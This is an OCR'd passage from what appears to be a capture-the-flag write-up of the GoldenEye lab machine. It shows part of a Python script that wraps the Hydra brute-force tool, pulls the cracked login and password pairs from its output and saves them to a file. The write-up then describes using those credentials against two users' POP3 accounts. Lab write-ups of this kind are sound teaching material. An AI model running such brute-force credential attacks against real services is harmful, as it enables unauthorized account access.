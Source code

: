 ```python
    credentials = [line for line in output.splitlines() if "login:" in line and "password:" in 
line] 
     
    if credentials: 
        print("\nCredentials found:") 
        for cred in credentials: 
            print(cred) 
         
        # Save credentials to a file with a randomized name 
        random_filename = f"credentials_{uuid.uuid4().hex}.txt" 
        with open(random_filename, "w") as file: 
            file.write("\n".join(credentials)) 
        print(f"\nCredentials saved to: {random_filename}") 
    else: 
        print("\nNo credentials found.") 
except subprocess.CalledProcessError as e: 
    print(f"An error occurred while executing Hydra: {e.stderr}") 
except FileNotFoundError: 
    print("Hydra is not installed or not found in your system's PATH.") 

```

After running the brute.py code on both Boris and Natalya(who was mentioned in the 
terminal.js source code we found) we found the following login credentials; 
 
We then got the following on Boris and so we ran the code again on Natalya and also 
found some login credentials which we would then use to access their pop3 ***“terminals”***

![credentials-from-hydra](/post-images/Golden-Eye/credz.png)
